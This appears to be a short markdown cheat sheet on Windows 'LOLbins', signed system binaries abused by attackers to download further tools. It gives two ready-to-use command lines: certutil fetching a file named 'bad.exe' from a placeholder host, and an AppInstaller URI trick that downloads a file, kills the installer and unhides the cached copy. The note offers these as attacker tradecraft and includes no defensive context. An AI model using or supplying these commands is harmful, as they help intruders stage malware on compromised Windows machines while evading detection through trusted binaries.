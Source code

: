 # LOLbins
The following are some windows lolbins to download more tools

## certutil.exe

This is a signed native application used to download new tools:
```
> certutil.exe -urlcache -split -f http://example.com/bad.exe local_bad.exe
```
## AppInstaller.exe
This is another LOLbin for downloading tools,
```
> start ms-appinstaller://?source=https://example.com/bad.exe && timeout 1 && taskkill /f /IM AppInstaller.exe > NUL
> attrib -h -r -s /s /d %LOCALAPPDATA%\Packages\Microsoft.DesktopAppInstaller_8wekyb3d8bbwe\AC\INetCache\*
```
